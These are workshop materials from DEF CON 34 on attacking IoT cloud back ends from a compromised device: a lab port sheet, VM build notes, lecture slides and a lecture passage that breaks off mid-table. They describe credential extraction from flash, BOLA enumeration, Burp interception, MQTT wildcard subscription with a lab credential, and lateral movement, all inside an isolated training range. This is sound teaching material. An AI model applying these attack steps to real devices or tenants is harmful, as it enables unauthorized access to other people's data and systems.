### `DEF CON 34 - Workshops - Rodney - BenevolentWorm - Beede - Attacking Cloud APIs from the IoT Edge - Student Resources/edge-to-cloud-pwn/documentation/labguide/PORTS.md`

````markdown
# Port Quicksheet — what listens where, and which lab uses it

Everything runs inside the one Ubuntu guest. From the **guest** use `localhost:<port>`; from the
**attacker container** (`docker compose exec attacker bash`) use the service hostname
(`cloud`, `broker`, `device`). No host-only NIC is required — see `networking-vmware.md`.

| Port | Proto / TLS | Service (container) | Published? | Used in lab(s) | What it's for |
|------|-------------|---------------------|-----------|----------------|---------------|
| **8443** | HTTPS, server-TLS | `cloud` REST API | yes | 01, 02, 04 | Provisioning (`/v1/provision`), device lookup `/v1/devices/<id>` (**BOLA**), roster `/v1/devices` |
| **9443** | HTTPS, **mTLS** | `cloud` data plane | yes | 02 (pt 3), 03, 04 | Sensitive telemetry; **requires a client cert** → blocks a plain Burp MITM |
| **8883** | MQTT over TLS | `broker` (Mosquitto) | yes | 05, 06 | Real device/cloud MQTT; weak ACLs; recon, fuzzing, lateral movement |
| **1883** | MQTT plaintext | `broker` (Mosquitto) | yes | (optional demo) | Anonymous, no TLS — used only to show how bad an open broker is |
| **7000** | HTTP | `device` debug agent | yes | 02, 03 | Your assumed **RCE foothold**: `push-ca`, `dump-nvs`, `enclave-run`, fs browse |
| **443** | HTTPS (Burp) | Burp CE Proxy listener *(you create)* | in-guest | 02 | Transparent listener; device is redirected here via `cloud:host-gateway`; forwards upstream to `127.0.0.1:8443` |

**No published ports** (outbound MQTT clients / exec-in only): `instructor-pod`, `fleet`, `attacker`.

## Per-lab view

| Lab | Ports touched | Flow |
|-----|---------------|------|
| 01 Firmware recon | 8443 | strings/binwalk the blob → provision over 8443 with the recovered token |
| 02 Burp interception | 443 → 8443, then 9443, plus 7000 | Burp on 443 redirects to 8443; `push-ca` via 7000 flips `verify=False`; 9443 mTLS then blocks Burp |
| 03 Key/identity | 7000, 9443 | `dump-nvs` / `enclave-run` via 7000; reach 9443 with the recovered/borrowed client cert |
| 04 REST BOLA | 8443, 9443 | enumerate `/v1/devices/<id>` on 8443 to harvest fleet creds + mTLS keys; read victim telemetry on 9443 |
| 05 MQTT recon/fuzz | 8883 | subscribe `#` / fuzz topic names with a harvested credential |
| 06 Lateral movement | 8883 | publish `PLAYSOUND` to `devices/instructor-pod/cmd`; catch the flag on `/evt` and `fleet/announce` |

## Quick connectivity checks (run in the guest)

```bash
curl -sk https://localhost:8443/healthz                       # cloud REST up?
curl -sk https://localhost:9443/ -o /dev/null -w '%{http_code}\n' || echo "mTLS (expected to refuse without a client cert)"
mosquitto_sub -h localhost -p 8883 --cafile certs/ca.crt --insecure -u dev-1001 -P p_aurora_88 -t '#' -C 1 -W 3
curl -s http://localhost:7000/fs?path=/app                    # device debug agent up?
```
````

### `DEF CON 34 - Workshops - Rodney - BenevolentWorm - Beede - Attacking Cloud APIs from the IoT Edge - Student Resources/edge-to-cloud-pwn/documentation/labguide/build-notes-networking-vmware.md`

````markdown
# Build Your Lab VM (VMware) + Networking

One consistent setup for every student, whatever the laptop: **VMware running a single Ubuntu
Desktop guest**, with the Docker stack, Burp CE, and the tools all inside that one guest.

## 1. Install VMware (free for personal use)

| Laptop host | Product |
|---|---|
| Windows (Intel/AMD) | VMware Workstation Pro |
| Linux (Intel/AMD) | VMware Workstation Pro |
| macOS (Intel or Apple Silicon) | VMware Fusion |

## 2. Get the right Ubuntu Desktop ISO — match the laptop's CPU

The guest architecture must match the host CPU. This is the **only** thing that differs per
machine:

| Laptop CPU | Ubuntu 26.04 LTS Desktop ISO |
|---|---|
| Intel / AMD (most Windows, Linux, Intel Macs) | **amd64** (`...-amd64.iso`) |
| Apple Silicon (M1–M4) | **arm64** (`...-arm64.iso`) |

> **Apple Silicon:** VMware Fusion runs **arm64 guests only** — it cannot boot an x86/amd64 ISO or
> open a pre-built amd64 VM. Use the arm64 desktop ISO.

## 3. Create the guest

* **Resources:** 8 GB RAM, 4 vCPUs, 60 GB disk (the workshop's spec). More RAM helps — you're
  running Burp + a browser + the Docker stack together.
* **Fusion on Apple Silicon tip:** if the ISO won't attach via drag-and-drop, use
  *File → New → Create a custom virtual machine → "Other Linux 6.x kernel 64-bit Arm"*, then attach
  the arm64 ISO. (Ubuntu 26.04 ships Linux 7.0, so the old Fusion-ARM graphics-driver caveat for
  pre-5.19 kernels no longer applies.)
* Install Ubuntu Desktop normally; create your user; enable SSH if you like.
  * Packer automation scripts for unattended builds are in `build-scripts/automation/` — see
    `build-scripts/automation/README.md`.

## 4. Networking — one NIC is enough

Give the guest **one network adapter set to NAT** (VMware's default), with DHCP. That's all the
lab needs:

* **Why one is enough:** every bit of lab traffic is internal to the VM. Containers talk to each
  other over Docker's bridge network; tools you run in the guest use `localhost`; and Burp
  interception reaches the device via the Docker host gateway (`cloud:host-gateway`). None of that
  uses a host vNIC. The only thing the NIC does is fetch images/packages **once** during setup.
* **Use NAT, not Bridged.** Bridged would put your intentionally-vulnerable services directly on
  the conference/host LAN. NAT keeps them behind the host — the published ports bind only inside
  the VM.


## 5. Provision the guest

Copy this repo into the guest (shared folder, `scp`, or `git clone`), then:

```bash
sudo bash build-scripts/scripts/bootstrap_lab_vm.sh      # Docker + tools + Burp authbind + pre-build Docker images
newgrp docker                              # or log out/in
bash build-scripts/scripts/check_env.sh   # confirm prerequisites
```

`bootstrap_lab_vm.sh` is architecture-agnostic — apt and the Docker repo resolve amd64 or arm64
automatically. It also pulls the Docker base images and builds all service images, so
`docker compose up -d` works fully offline afterward.

## 6. Install Burp Suite Community Edition (in the guest)

Download from PortSwigger and pick the build that matches the guest:

* amd64 guest → **Linux (x64)**
* arm64 guest → **Linux (ARM)**

CE is free (no license key) and covers everything the labs use — the **Proxy** (interception) and
**Repeater**. Use the **native installer**, not the bare `.jar` and not a third-party "loader": on
arm64 those bundle x86 native components and crash the ARM JVM. (CE keeps a temporary project and
throttles Intruder, but the labs fuzz with the provided Python tools, so that doesn't matter.)

`bootstrap_lab_vm.sh` configures `authbind` so Burp can bind to the privileged port 443 without
sudo. Launch Burp via `authbind --deep /opt/BurpSuiteCommunity/BurpSuite` — see
`02-burp-interception.md` for the full setup.

## 7. Run the range

```bash
cd build-scripts/
docker compose up -d
docker compose --profile attacker up -d attacker
```

For the Burp interception lab, Burp and the containers share this guest, so point the device at the
Docker host gateway: uncomment `extra_hosts: ["cloud:host-gateway"]` under `device` in
`build-scripts/docker-compose.yml` and set your Burp listener to redirect to `127.0.0.1:8443`
(see `02-burp-interception.md`).

---

## Automated / CLI build (optional)

Yes — you can build the guest from the command line instead of clicking through the wizard. Packer
with the `vmware-iso` builder supports both architectures:

**On x86 (Workstation on Windows/Linux, Fusion on Intel Mac):**
Use `build-scripts/automation/packer/amd64-workstation.pkrvars.hcl`. Produces an unattended guest
from the Ubuntu **desktop** ISO and runs `bootstrap_lab_vm.sh` as a provisioner, so the VM comes
out lab-ready with Docker images already built — no internet needed at the workshop.

**On Apple Silicon (Fusion on M1–M4):**
Use `build-scripts/automation/packer/arm64-fusion.pkrvars.hcl`. Same `vmware-iso` builder — Fusion
is auto-detected. Requires UEFI (`firmware = "efi"` is already set in the pkrvars file). Verify
your Fusion NAT subnet before building (see `build-scripts/automation/README.md`).

For full build instructions: **[build-scripts/automation/README.md](../../build-scripts/automation/README.md)**.
````

### `DEF CON 34 - Workshops - Rodney - BenevolentWorm - Beede - Attacking Cloud APIs from the IoT Edge - Student Resources/edge-to-cloud-pwn/documentation/lecture-slides.md`

````markdown
# Attacking Cloud APIs from the IoT Edge

**DEF CON 34 — Workshops — 4-Hour Hands-On Lab**
Rodney Beede (`BenevolentWorm`) — Life360

---

## ⚠️ Authorization & Scope — Read First

- All activity stays inside the **isolated lab tenant + instructor-provided device**
- Do **not** point any tool at production, third-party, or shared systems
- No attacks on the conference network
- Real engagements require **written authorization + scope** before testing
- Cloud providers have their own pentest/acceptable-use rules — follow them

---

## Agenda (~30 min)

1. Threat model & attacker journey
2. IoT architecture
3. Device → gateway → cloud flow
4. HTTP vs MQTT — and what that does to your tools
5. CoAP + DTLS
6. Device authentication & credentials
7. Tenancy & shared responsibility
8. Cloud API attack surface
9. Where credentials live on the device
10. What good looks like
11. Key takeaways

---

## 1. Threat Model — Where We Start

**We do NOT cover getting initial access to a device.**

We start with a compromised device — assume code execution and/or flash access (UART / JTAG / chip soldering).

```
  1. ENUMERATE   observe device↔cloud flows
  2. EXTRACT     recover credentials/keys from device storage
  3. AUTHENTICATE  reconnect to broker + REST API as the device
  4. FUZZ/ABUSE  REST + MQTT for authz gaps and logic flaws
  5. PIVOT       data exfiltration, lateral movement in-tenant
```

> The credential on the device is the credential to the cloud.
> The gaps we exploit are the **customer's**, not the provider's.

---

## 2. IoT Architecture



- Each layer speaks a **different protocol** — different tooling per layer
- The **gateway** often holds cloud-side credentials and terminates local security
- We start at the **bottom** and pivot **up**

---

## 3. Device → Gateway → Cloud Flow

```mermaid
sequenceDiagram
    participant Dev as IoT Device (compromised)
    participant Br as Cloud Broker
    participant Be as REST API / Back end
    participant Att as Attacker

    Note over Dev: Provisioning
    Dev->>Be: POST /provision (bootstrap secret)
    Be-->>Dev: identity (X.509 cert / token) stored in flash ← target

    Note over Dev,Br: Data plane (ongoing)
    Dev->>Br: MQTT PUBLISH telemetry/&lt;id&gt; (TLS)
    Att->>Be: GET /devices/{id}/telemetry

    Note over Att,Br: Attacker replays recovered identity
    Att->>Br: MQTT CONNECT as device (stolen cred)
    Att->>Br: SUBSCRIBE # (if ACL is weak)
    Att->>Be: POST /devices/{id}/commands
```

---

## 4. HTTP vs MQTT

| | **HTTP** | **MQTT** |
|---|---|---|
| Model | Request / response | Publish / subscribe via broker |
| Connection | Short-lived | Persistent |
| Framing | Text headers | Binary packets |
| Addressing | URLs | Topic strings with `#` / `+` wildcards |
| Ports | 443 | 8883 (TLS) |

### Impact on your tools

- **Burp CE** = HTTP proxy. REST plane, provisioning, OAuth/token flows — ✅ works natively
- **Raw MQTT (TCP 8883)** — Burp cannot parse MQTT control packets — ❌
- **MQTT-over-WebSocket** — Burp can intercept frames, but you're reading raw MQTT inside
- **Native MQTT** → switch to `mosquitto_sub`, Paho

> *"Burp owns the REST side; the broker side needs broker tools."*
> Subscribing to `#` on a permissive broker = unauthenticated directory listing.
> - Also $SYS/#

---

## 5. CoAP + DTLS

**CoAP** = "REST for tiny devices" — same verbs (GET/POST/PUT/DELETE), **UDP** instead of TCP, 4-byte binary header. Default ports: **5683** (`coap`), **5684** (`coaps`).

| | **TLS (TCP)** | **DTLS (UDP)** |
|---|---|---|
| Transport | Reliable stream | Unreliable datagrams |
| Ordering | TCP provides it | DTLS adds its own |
| DoS defense | TCP 3-way handshake | **Cookie exchange** before state is allocated |
| IoT use | HTTPS REST, MQTT/TLS | CoAPS, PSK/raw-key on MCUs |

- Standard TLS-MITM tooling (Burp) **expects TCP TLS** — CoAP/DTLS doesn't intercept the same way
- If PSK is in use, the key is probably **sitting in flash** (→ Section 9)

---

## 6. Device Authentication & Credentials

| Mechanism | What you extract | Pivot |
|---|---|---|
| **mTLS (X.509 client cert)** | Private key + cert from flash | Impersonate device to broker / mTLS API |
| **Token / PSK** | Token or DTLS PSK from NVS | Replay to broker + REST; wide reach if over-scoped |
| **Cloud signing keys (SigV4)** | Long-lived access key + secret | Call cloud APIs as that principal |
| **OAuth / OIDC** | Access/refresh tokens from mobile app | Abuse app API authz gaps |

### Key distinctions

- **AuthN ≠ AuthZ** — most big findings are **authorization** failures, not broken crypto
- **Per-device vs fleet-shared** — one compromised device = every device if credentials are shared
- **Long-lived vs short-lived** — long-lived keys on a device are a standing liability

---

## 7. Tenancy & Shared Responsibility



- **Self-hosted brokers** (Mosquitto / EMQX / HiveMQ) shift **all** of the right column onto the operator — defaults are often weak: anonymous access, wildcard ACLs, no TLS
- The recurring real-world finding: a device cert that can **subscribe to `#`** or publish outside its own namespace

---

## 8. Cloud API Attack Surface

| Surface | What to look for | Tools |
|---|---|---|
| **Device credentials** | Keys/tokens/PSK in flash; shared or long-lived secrets | binwalk, strings, NVS parsers |
| **MQTT broker** | Anonymous access, `#`/`+` ACLs, retained secrets, command topics | mosquitto_*, MQTTX, mqtt-pwn |
| **REST API** | BOLA/IDOR, BFLA, weak authz, excessive data exposure | Burp CE, ffuf |
| **Tenant isolation** | Cross-tenant access, over-broad IAM roles | awscli, enumerate-iam, Pacu |

### OWASP API Top 10 hits in IoT

- **BOLA/IDOR** — `GET /devices/{id}` returns another tenant's device → #1 finding
- **BFLA** — calling admin endpoints as a low-privilege device principal
- **Excessive data exposure** — endpoint returns more than the UI shows
- **Enumeration** — endpoints discovered from device traffic, mobile app, or docs

---

## 9. Where Credentials Live on the Device

### Linux-class (gateways, cameras)

```
  bootloader  →  kernel  →  rootfs (SquashFS, READ-ONLY)
                          →  overlay/data (UBIFS / ext4, READ-WRITE)
```

- `binwalk` → carve SquashFS → grep `/etc`, init scripts, app config
- Find: **API endpoints, X.509 keys, hardcoded tokens, Wi-Fi/cloud creds**

### MCU / RTOS-class (Zephyr)

```
  boot_partition    MCUboot
  slot0_partition   running firmware
  slot1_partition   staged OTA update
  storage_partition NVS / settings  ← credentials live here
```

| Zephyr store | What's inside |
|---|---|
| **NVS** | Config, calibration, **credentials / DTLS PSK** |
| **Settings** | BLE bonding keys, network creds, app settings |

- Dump `storage_partition` → parse NVS key/value records → recover **DTLS PSK, device token, Wi-Fi PSK, cloud URL**
- No `/etc` to grep — you're parsing raw flash

---

## 10. What Good Looks Like

- **Least-privilege topic ACLs** — per-device namespace, no `#`/`+` wildcards
- **Per-device, short-lived credentials** — unique, rotated, revocable; never fleet-shared
- **mTLS + secure element** — secrets in protected hardware, not plaintext NVS
- **Object- and function-level authz on REST** — explicitly test BOLA/IDOR and BFLA
- **Validated tenant isolation** — cross-tenant access tests in QA
- **Self-hosted broker hygiene** — disable anonymous, enforce TLS, real ACLs, patch regularly

---

## 11. Key Takeaways

1. **Device credential = cloud credential.** One compromised device is the key to the cloud tenant.
2. **REST is the management plane; MQTT/CoAP is the data plane.** The bridge is the attack path.
3. **Burp owns REST; broker tools own MQTT.** Know when to switch.
4. **UDP changes the security story.** CoAP/DTLS ≠ TCP TLS for interception.
5. **AuthN ≠ AuthZ.** The big findings are authorization failures — BOLA, over-broad ACLs, weak tenant isolation.
6. **Managed vs self-hosted shifts responsibility.** Self-hosted broker = customer owns TLS, ACLs, and patching.
7. **Credentials live in predictable places.** SquashFS `/etc` on Linux-class; Zephyr `storage_partition` on MCU-class.

---

## Tooling Reference

| Domain | Tools |
|---|---|
| REST / HTTP | **Burp Suite CE** (Proxy, Repeater), mitmproxy, ffuf |
| MQTT | mosquitto_pub/sub, MQTT Explorer, MQTTX, mqtt-pwn, Paho (Python) |
| CoAP / DTLS | libcoap (`coap-client`), aiocoap, `openssl s_client -dtls` |
| Cloud (AWS) | awscli, enumerate-iam, Pacu |
| Firmware / storage | binwalk, strings/xxd, NVS parsers |

---

## Now: Lab Time

Full details in `documentation/lecture.md`. Lab exercises in `documentation/labguide/`.

`labguide/00-setup.md` → start here.

---

*DEF CON 34 Workshop — Attacking Cloud APIs from the IoT Edge*
*Created with assistance from Claude AI with all content reviewed by the human responsible for this workshop.*
````

### `DEF CON 34 - Workshops - Rodney - BenevolentWorm - Beede - Attacking Cloud APIs from the IoT Edge - Student Resources/edge-to-cloud-pwn/documentation/lecture.md`

````markdown
# Attacking Cloud APIs from the IoT Edge — Concepts & Architecture

**DEF CON 34 — Workshops — 4-Hour Hands-On Lab**
Instructor: Rodney Beede (`BenevolentWorm`) — Life360

> **Scope of this document.** This is the *concepts / architecture briefing* — the short lecture
> we cover before students move to the lab benches. The goal is a shared mental model: how an IoT
> device talks to a cloud back end, where the trust boundaries are, how the device authenticates,
> and which of those boundaries fall under the **cloud customer's** responsibility (the part we
> attack). Detailed exploitation, fuzzing harnesses, and the hands-on labs live in the lab guide,
> not here. Per the workshop format, lecture time is kept short in favor of hands-on activity.

> **Instructor note.** Keep this segment to ~25–30 minutes. Students are intermediate→expert and
> already know HTTP/REST. Spend the time on what's genuinely different at the edge: the
> MQTT/CoAP data plane, transport security on UDP, the device authentication models, and the
> cloud-side authorization gaps we pivot through.

### Briefing agenda (~30 min)

- Threat model & attacker journey
- IoT architecture + device→gateway→cloud flow
- HTTP vs MQTT vs CoAP (+ Burp impact) and TLS vs DTLS
- Device authentication & credentials
- Tenancy, shared responsibility, and the API attack surface
- Where credentials live on the device; scope & rules

---

## Table of Contents

1. [Threat model & attacker journey](#1-threat-model--attacker-journey)
2. [High-level IoT architecture](#2-high-level-iot-architecture)
3. [Device → gateway → cloud API flow](#3-device--gateway--cloud-api-flow)
4. [HTTP vs MQTT — and what it does to Burp Suite CE](#4-http-vs-mqtt--and-what-it-does-to-burp-suite-ce)
5. [CoAP, and DTLS vs TCP TLS](#5-coap-and-dtls-vs-tcp-tls)
6. [Device authentication & credentials](#6-device-authentication--credentials)
7. [Tenancy models and the shared responsibility model](#7-tenancy-models-and-the-shared-responsibility-model)
8. [The cloud-API attack surface](#8-the-cloud-api-attack-surface)
9. [IoT device filesystem layouts and Zephyr RTOS storage](#9-iot-device-filesystem-layouts-and-zephyr-rtos-storage)
10. [What good looks like — defensive counterpoint](#10-what-good-looks-like--defensive-counterpoint)
11. [Authorization, scope & responsible disclosure](#11-authorization-scope--responsible-disclosure)
12. [Tooling reference](#12-tooling-reference)
13. [Key takeaways](#13-key-takeaways)

---

## 1. Threat model & attacker journey

This workshop does **not** cover gaining initial access to a device. We **start** from an
already-compromised IoT device (instructor-provided in the lab) — assume code execution and/or
flash access on the device (UART / JTAG / chip soldering). Everything we do happens inside an **isolated lab tenant we control**
(see Section 11).

From that foothold, the device may hand us three things: an **identity** (a certificate or token), a
**map** (the endpoints and topics it talks to), and whatever sits in its **storage**. The rest of
the workshop is the path from "one device's secrets" to "the customer-owned cloud configuration":

```
  1. ENUMERATE   observe device↔cloud flows; identify broker, REST endpoints, topics
  2. EXTRACT     recover credentials/tokens/keys from device storage (Section 9)
  3. AUTHENTICATE  reconnect to broker + REST API as the device — or, if authz is loose, as MORE
  4. FUZZ/ABUSE  exercise REST and MQTT for authz gaps, logic flaws, parser bugs (Section 8)
  5. PIVOT       demonstrate data exfiltration, back-end logic abuse, lateral movement in-tenant
```

**The credential we pull off the device (Section 9)
is the same credential that authenticates us to the cloud (Section 6), and the misconfigurations
we then exploit (Sections 7–8) belong to the cloud *customer*, not the provider.**

---

## 2. High-level IoT architecture

An IoT system reads as a stack of layers, each with its own protocols and its own attack surface.



```
  PRINT-FRIENDLY VIEW                       ▲ telemetry up   commands down ▼
  APPLICATION      Mobile / web apps, dashboards, ML
  CLOUD / PLATFORM Broker · device mgmt · rules · REST API
  NETWORK / XPORT  WiFi/Cell/Eth · BLE/Zigbee/LoRa · TLS/DTLS
  EDGE / GATEWAY   Protocol xlate · buffering · TLS termination
  DEVICE           Sensors/actuators · MCU/RTOS · flash
```

Teaching points: each layer speaks a **different protocol**, so the attack surface and the
*tooling* change as you move up and down; the **gateway is a trust pivot** that often terminates a
weak local security context and originates a stronger TLS/DTLS one (and frequently holds the
cloud-side credentials); and our **foothold is the bottom layer**.

---

## 3. Device → gateway → cloud API flow

This is the concrete path we follow. The sequence below shows provisioning, telemetry up, and
command down — and, critically, **where the credentials end up**.



Reading it as an attacker: the **identity issued during provisioning ends up in the device's
flash**. With a compromised device we recover it (Section 9), reconnect as that device — or, if
the topic ACL or object authorization is loose, as *more than* that device — and walk the same
rules-engine → back-end → REST path that legitimate traffic takes, now choosing our own payloads.

---

## 4. HTTP vs MQTT — and what it does to common tools like Burp Suite CE

| | **HTTP / HTTPS** | **MQTT** |
|---|---|---|
| Interaction model | Request/response (pull) | Publish/subscribe via a broker (push + pull) |
| Who initiates | Client only | Either side after CONNECT; broker can push to subscribers |
| Connection | Per-request or keep-alive; often short-lived | One persistent TCP connection, kept open |
| Framing | Text headers + body | Compact **binary** control packets (CONNECT, PUBLISH, SUBSCRIBE, …) |
| Addressing | URLs / routes | Topic strings with `/` hierarchy and `+` / `#` wildcards |
| Delivery semantics | None built in (app-level) | **QoS 0/1/2**, **retained** messages |
| Typical ports | 80 / **443** | 1883 / **8883** (TLS) / 9001 (WebSocket) / 443 (wss) |
| Statefulness | Stateless | Session state at the broker (subscriptions, in-flight QoS) |

The conceptual jump for a web-trained tester is **push and persistence**. With HTTP you reason
about a transaction; with MQTT you reason about a *session* and a *namespace* — who can subscribe
to whose topics, what is retained, and what the broker will push to you unprompted.

### Impact on Burp Suite CE

Burp is, at its core, an **HTTP** tool — proxy, Repeater, and Intruder are built around
the HTTP/HTTPS (and WebSocket) request/response model. Consequences:

- **The REST plane is Burp's home turf.** Provisioning calls, the app's API, OAuth/token flows,
  command endpoints — intercept and Repeater all work natively in CE. (CE throttles Intruder;
  the lab's REST fuzzing uses the provided Python tools instead.) This is where students' existing
  skills transfer cleanly.
- **Raw MQTT (TCP 1883/8883) is *not* something Burp speaks.** You cannot point Burp's HTTP proxy
  at a broker and use Repeater/Intruder on PUBLISH packets — Burp does not parse MQTT control
  packets, and there is no request/response transaction to model.
- **MQTT-over-WebSocket is the exception.** When MQTT rides WebSockets (`ws://` / `wss://`, often
  9001 or 443), Burp's WebSocket support *can* intercept and replay the frames carrying the MQTT
  payload — though you are still reading raw MQTT inside the frames.
- **For native MQTT you switch tools** (see Section 12): `mosquitto_pub`/`mosquitto_sub`, MQTT
  Explorer, MQTTX, mqtt-pwn, or a few lines of Paho in Python to subscribe to `#`, enumerate
  topics, and replay/fuzz payloads.

> **One-liner for the room:** *"Burp owns the REST side; the broker side needs broker tools."*
> Subscribing to `#` on a permissive broker is the MQTT equivalent of an unauthenticated
> directory listing.

---

## 5. CoAP, and DTLS vs TCP TLS

### CoAP in one paragraph

**CoAP** (Constrained Application Protocol, RFC 7252) is "REST for tiny devices." It keeps the
RESTful verbs and response codes you know (GET/POST/PUT/DELETE, 2.xx/4.xx/5.xx, URIs) but runs over
**UDP** with a 4-byte binary header instead of HTTP's text headers over TCP. It adds Confirmable
(CON) vs Non-confirmable (NON) messages, message IDs and tokens, an **Observe** option (a
lightweight subscribe), and block-wise transfer. Default ports are **5683** (`coap`) and **5684**
(`coaps`, CoAP over DTLS). Because it mirrors REST, CoAP proxies cleanly to/from HTTP at a gateway.

So at the edge you commonly see three application protocols — **HTTP** (REST), **MQTT** (pub/sub),
and **CoAP** (constrained REST). HTTP and MQTT ride TCP; CoAP rides UDP (but does have TCP support), which forces a different
transport-security story.

### DTLS vs TCP TLS

TLS assumes a reliable, ordered byte stream — it runs over **TCP**. CoAP runs (usually) over **UDP**, so it
uses **DTLS** (Datagram TLS), a variant of TLS adapted to datagrams.

| | **TLS (over TCP)** | **DTLS (over UDP)** |
|---|---|---|
| Underlying transport | TCP — reliable, ordered stream | UDP — unreliable, unordered datagrams |
| Reliability of handshake | Provided by TCP | DTLS adds its **own** retransmission + reordering for the handshake |
| Record layer | Implicit ordering from the stream | Each record carries an explicit **epoch + sequence number** |
| DoS / amplification defense | TCP 3-way handshake | **Cookie exchange** (`HelloVerifyRequest`) before state is allocated |
| Version mapping | TLS 1.2 / TLS 1.3 | DTLS 1.2 ≈ TLS 1.2; DTLS 1.3 ≈ TLS 1.3 |
| Typical IoT use | HTTPS REST, MQTT/TLS (8883) | CoAPS (5684); PSK and raw-public-key modes common on MCUs |
| Cipher suites | Standard TLS suites | Largely the same; constrained profiles favor PSK / ECC |

Points to land: **DTLS re-implements at its own layer the bits TCP normally provides** (loss
recovery and ordering for the handshake), because UDP gives it neither; the **cookie exchange
exists because UDP is spoofable** (without it a forged ClientHello could make the server allocate
state and reply to a spoofed victim — amplification); and **constrained profiles look different**,
favoring PSK or raw public keys over full PKI chains.

> **Pen-test relevance:** standard TLS-MITM tooling (including Burp) expects **TCP TLS**. CoAP over
> DTLS on UDP does not intercept the same way — you need DTLS-aware tooling, and if PSK is in use,
> the key, which is usually sitting in the device's flash (Section 9).

---

## 6. Device authentication & credentials

"Extract tokens" is in the workshop goal for a reason: **what you recover from the device dictates
how you authenticate to the cloud and how far you can pivot.** Four mechanisms dominate.

| Mechanism | Where it's used | What you extract | Pivot |
|---|---|---|---|
| **Mutual TLS (X.509 client cert)** | AWS IoT Core default; many self-hosted brokers | Device private key + cert from flash | Impersonate the device to the broker / mTLS API |
| **Token / pre-shared key** | Bearer tokens, API keys, SAS-style tokens, **DTLS PSK** | Token or PSK from NVS/settings | Replay to broker/REST; broad reach if the token is over-scoped |
| **Cloud request signing (e.g., AWS SigV4)** | Devices/gateways calling cloud provider APIs directly | Long-lived access key + secret, or temp creds | Call cloud APIs as that principal — major finding if keys are long-lived |
| **OAuth 2.0 / OIDC** | The mobile/web **app**-facing API | Access/refresh tokens (from the app, not the device) | Exercise the app API; abuse inconsistent authz between app and device paths |

Conceptual distinctions worth stating explicitly:

- **AuthN vs AuthZ.** Authentication proves *who* you are; authorization decides *what* you may
  do. Most impactful IoT-cloud findings are **authorization** failures, not broken crypto.
- **Per-device vs shared credentials.** A unique cert/token per device limits blast radius. A
  **fleet-shared secret** means one compromised device compromises every device's channel.
- **Long-lived vs short-lived.** Long-lived keys/tokens on a device are a standing liability;
  short-lived, narrowly-scoped credentials (e.g., issued just-in-time) are the goal.
- **Where each physically lives.** Certs/keys and PSKs sit in flash — `/etc` on Linux-class
  devices, the storage/NVS partition on MCU-class devices (Section 9).

---

## 7. Tenancy models and the shared responsibility model

### Tenancy: where is the isolation boundary?

Public clouds and shared brokers are **multi-tenant** by default — many customers on shared
infrastructure, kept logically separate by an account boundary plus identity controls.

- **AWS (managed).** The **account** is the primary isolation boundary. Within it, **IAM**
  governs access, **VPCs** segment the network, and **AWS IoT Core** adds a **thing registry**,
  **X.509 certificates** (or Cognito/custom auth) for device identity, and **IoT policies** that
  scope which topics a device may connect/publish/subscribe to. AWS IoT Core is a current, fully
  managed broker supporting MQTT, HTTP, and WebSocket.
- **Self-managed MQTT brokers.** Plenty of vendors run their **own** broker rather than a managed
  cloud IoT service:
  - **Eclipse Mosquitto** — lightweight, typically single-node; common in smaller, embedded, and
    on-prem deployments. Isolation is whatever the `mosquitto.conf` + ACL file define.
  - **EMQX** — distributed/clustered, horizontally scalable; ACLs and authn via built-in
    databases or external plugins.
  - **HiveMQ** — enterprise MQTT platform with clustering, an extension SDK, and policy controls.

  With a self-hosted broker, **tenancy is exactly what the operator configured** — listener
  config, per-client credentials, topic ACLs. Defaults are frequently weaker than managed clouds:
  anonymous access left enabled, wildcard (`#`) ACLs, or a single shared credential across the
  fleet. And the shared-responsibility line shifts further onto the customer: there is **no
  provider** patching the broker, terminating TLS, or designing the ACLs — the operator owns all
  of it.

On top of all this, an IoT vendor usually runs a **multi-tenant SaaS**: thousands of customers'
devices share one back end, separated by a tenant ID or per-customer account. **That
vendor-built isolation is customer code/config — and it is exactly the layer that gets
misconfigured.**

### Shared responsibility, applied to IoT

The provider is responsible for **security *of* the cloud** (infrastructure, managed-service
internals); the customer is responsible for **security *in* the cloud** (everything configured on
top). The submission's phrase "cloud customer responsibility" points squarely at the customer
column — and that is what we attack.

| Concern | Provider (managed cloud) | **Customer (the target)** |
|---|---|---|
| Physical infra, hypervisor, managed-broker internals | ✅ | — |
| **Broker software patching / TLS config** | ✅ *(managed)* / ❌ *(self-hosted → customer)* | ✅ if self-hosted |
| **Device identity & credential lifecycle** | — | ✅ certs/tokens, rotation, revocation |
| **IoT policy / topic ACL scoping** | — | ✅ least-privilege topics, no blanket wildcards |
| **Tenant isolation logic** (multi-tenant SaaS) | — | ✅ correct tenant separation |
| **IAM / service-account permissions** | — | ✅ least privilege, no over-broad roles |
| **API authorization (BOLA/IDOR, BFLA)** | — | ✅ object- and function-level checks |
| **Firmware & on-device secret storage** | — | ✅ how/where keys live on the device |

> **Instructor note:** the recurring real-world finding is an **over-permissive IoT policy / ACL**
> — a device cert that can subscribe to `#` or publish outside its own namespace. Combined with a
> credential lifted from flash (Section 9), that single misconfiguration is the whole kill chain.

---

## 8. The cloud-API attack surface

With a recovered credential in hand, the offense is mostly about **authorization gaps and logic
flaws**, not breaking crypto. Two surfaces:

**REST API.** The classics map onto the OWASP API Security Top 10:

- **BOLA / IDOR** (broken object-level authorization) — the #1 API risk. `GET /devices/{id}` where
  changing `{id}` returns *another* tenant's device. IoT APIs are full of object IDs.
- **BFLA** (broken function-level authorization) — calling admin/privileged endpoints as a
  low-privilege principal.
- **Authn bypass / weak tokens**, **excessive data exposure** (endpoint returns more than the UI
  shows), **mass assignment**, and classic **injection**.
- **Enumeration** — discovering endpoints from observed device traffic, the mobile app, or docs.

**MQTT.** Topic-ACL weaknesses (subscribe to `#`, publish outside namespace), **unauthenticated
brokers**, **retained-message disclosure**, command injection via downlink topics, and LWT abuse.
Attacks against the broker service itself with known CVEs may also be possible, but not required.

**What "fuzzing REST/MQTT" means** conceptually: systematically varying inputs — object IDs, query
params, JSON fields, topic strings, payloads — to surface authorization gaps, parser bugs, and
logic flaws. On REST that's Burp Intruder / parameter fuzzing; on MQTT it's topic and payload
fuzzing with broker-aware tooling.

### Cloud-API attack-surface map

| Surface | What to look for | Typical tooling | Difficulty |
|---|---|---|---|
| **Device credentials** | Keys/tokens/PSK in flash; long-lived or shared secrets | binwalk, strings/xxd, NVS parsers | Low–Med |
| **MQTT broker / topics** | Anonymous access, `#`/`+` ACLs, retained secrets, command topics | mosquitto_*, MQTT Explorer, mqtt-pwn | Low–Med |
| **REST API** | BOLA/IDOR, BFLA, weak authz, excessive data exposure | Burp Suite CE, ffuf, mitmproxy | Med |
